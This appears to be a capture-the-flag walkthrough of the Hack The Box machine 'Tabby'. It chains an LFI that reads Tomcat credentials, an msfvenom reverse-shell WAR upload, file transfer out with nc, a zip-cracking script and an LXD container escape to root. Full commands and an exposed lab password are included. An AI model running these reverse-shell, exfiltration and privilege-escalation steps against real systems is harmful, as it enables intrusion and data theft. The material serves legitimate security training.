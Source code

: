# Hack The Box - Tabby

## This is my writeup and walkthrough for Obscurity from Hack The Box.


![cover](https://user-images.githubusercontent.com/36403473/86299941-cbe51a80-bc01-11ea-801b-3c4a276e6143.jpg)

## an easy linux machine with some vulnerable LFI 

## `Enumeration`
   
#### 1-Nmap 
  `nmap -sC -sV 10.10.10.194`

```
theblock@python-4004:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 01:22 EET
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.47s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### My focus was on Port 80 `http Apache httpd 2.4.41 ((Ubuntu))` ,and 8080 running a http Apache called `Tomcat`. 

#### 2-website

![Screenshot from 2020-07-02 01-34-45](https://user-images.githubusercontent.com/36403473/86300983-ecfb3a80-bc04-11ea-81d9-2d1be55f2920.png)

##### Ckeck site very well moving to `news` page founding  paramter `file` it maybe vulnerable

![Screenshot from 2020-07-02 01-33-13](https://user-images.githubusercontent.com/36403473/86301124-4cf1e100-bc05-11ea-906c-1b77164f5826.png)

##### First i thought it may be `LFI` and it was right expectation but let’s add 10.10.10.194 to our `/etc/hosts` file  

![Screenshot from 2020-07-02 02-09-29](https://user-images.githubusercontent.com/36403473/86302713-c8ee2800-bc09-11ea-8f35-3453aedf8d99.png)
 
##### the second step to exploit but i need more information now the role of port `8080`
#####   checking this port `10.10.10.194:8080`


![Screenshot from 2020-07-02 02-23-24](https://user-images.githubusercontent.com/36403473/86303303-bd9bfc00-bc0b-11ea-8ed6-33fa5e11bbab.png)
 
The `CATALINA_HOME` and `CATALINA_BASE` environment variables are used to 
specify the location of Apache Tomcat and the location of its active configuration, respectively.

this information is very important `Users are defined in /etc/tomcat9/tomcat-users.xml.` okey lets see our users using `CATALINA_HOME`
i think its very important to see Apache Tomcat 8 docs ,googling and lets try to get usrs from `tomcat-users.xml`
[Tomcat docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)


![lfi](https://user-images.githubusercontent.com/36403473/86301222-95110380-bc05-11ea-8f59-d41dbaa6f153.png)
 very good i have `tomcat` password `$3cureP4s5w0rd123!`
no i can acess `The host-manager` but i dont have any authorization to  upload any shell on this server so lets googling maybe find way.
i found an exploitaion to this server [Tomcat exploitaion](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)
now from `LFI` we can get `RCE` 
### Exploitation
 
 Exploitation is  to Generate `.war` Format Backdoor,We can use msfvenom for generating a `.war` format backdoor for java/jsp payload, all you need to do
 is just follow the given below syntax to create a `.war` format file and then run Netcat listener.
 ```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.120 LPORT=1234 -f war > kk.war
 nc -lvp 1234
 ```
 Deploy A New Application from a Local Path from this path `http://10.10.10.194:8080/manager/text/deploy?path=filename` this mentioned in the documentation 
 
 using curl command to send `.war` file to server 
```
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file kk.war "http://10.10.10.194:8080/manager/text/deploy?path=/kk.war"
```
checking context `http://10.10.10.194:8080/manager/text/deploy?config=file:/path/context.xml`

![server file](https://user-images.githubusercontent.com/36403473/86305635-6cdbd180-bc12-11ea-8ace-28c853d22d85.jpg)
###### `kk.war` is uploaded successfully 

![connect2](https://user-images.githubusercontent.com/36403473/86305804-deb41b00-bc12-11ea-9efc-bfa48c11f726.jpg)

connected to machine and upgrade to tty shell  `python3 -c 'import pty; pty.spawn("/bin/bash")'` or to upgrade to full  tty shell use this commands 

 ``` 
    /usr/bin/script -qc /bin/bash /dev/null
     Ctrl-Z
     stty raw -echo
     fg
     Ctrl-Z
    
````
### Privilege Escalation
#### 1- Own User
in this step lets discover system and search for any things that seem important to escalate your privilege
in /home/ash i couldnt go inside lets look deeper 
in `/var/www/html/files` i found `16162020_backup.zip` that need password to be unziped so i copy this zip file from target machine to my machine by nc command 
``` 
target machine 
nc 10.10.16.120 4000 > 16162020_backup.zip
my machine 
nc -l -p 4000 < 16162020_backup.zip
````
i develop simple python code to crack this zip file password 

```
#!/usr/local/bin/python3
from tqdm  import tqdm 
import zipfile
import sys

wordlist = sys.argv[2]
zip_file = sys.argv[1]

zip_file = zipfile.ZipFile(zip_file)
n_words = len(list(open(wordlist, "rb")))

print("Total passwords to test:", n_words)
with open(wordlist, "rb") as wordlist:
    for word in tqdm(wordlist, total=n_words, unit="word"):
        try:
            zip_file.extractall(pwd=word.strip())
        except:
            continue
        else:
            print("[+] Password found:", word.decode().strip())
            exit(0)
print("[!] Password not found, try other wordlist.")
```
the password `admin@it`
And now we owned user ash:
getting usr.txt 

![Screenshot from 2020-07-02 03-54-33](https://user-images.githubusercontent.com/36403473/86308013-7700ce80-bc18-11ea-95c4-3cd1369c46d8.png)

#### 2- Own Root
This step took me a lot of time, although it was not difficult
but finally i own machine lets explian the exploit 
on seeig autherization by `id` 

![Screenshot from 2020-07-02 04-00-23](https://user-images.githubusercontent.com/36403473/86308347-40778380-bc19-11ea-93e7-e5d5122d8379.png)

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. 
This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. 
The vulnerability exists even with the LXD snap package.
[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

#### Steps to be performed on the attacker machine:
1-Download build-alpine in your local machine through the git repository. 

2-Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

3-Transfer the tar file to the host machine

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

```
i upload all files on my localhost 

![Screenshot from 2020-06-30 17-24-49](https://user-images.githubusercontent.com/36403473/86310114-8afaff00-bc1d-11ea-856b-551651e35021.png)

on the target machine 
`wget  http://10.10.16.120/lxd-alpine-builder-master/alpine-v3.12-x86_64-20200630_1546.tar.gz` on `/tmp` or /`home`

After the image is built it can be added as an image to LXD as follows:
`lxc image import alpine-v3.12-x86_64-20200630_1546.tar.gz --alias myimage`
`lxc image list`
![lxc](https://user-images.githubusercontent.com/36403473/86310258-e62cf180-bc1d-11ea-92a5-898b77719e79.png)

 ```
 lxc init myimage ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id
````
Once inside the container, navigate to /mnt/root to see all resources from the host machine.
After running the bash file. We see that we have a different shell, it is the shell of the container. 
This container has all the files of the host machine. So, we enumerated for the flag and found it.

```
mnt/root/root
ls
flag.txt
cat flag.txt
```
![root](https://user-images.githubusercontent.com/36403473/86310532-a1ee2100-bc1e-11ea-8bb1-bf272f231d6c.png)

#### now  we owned machine 

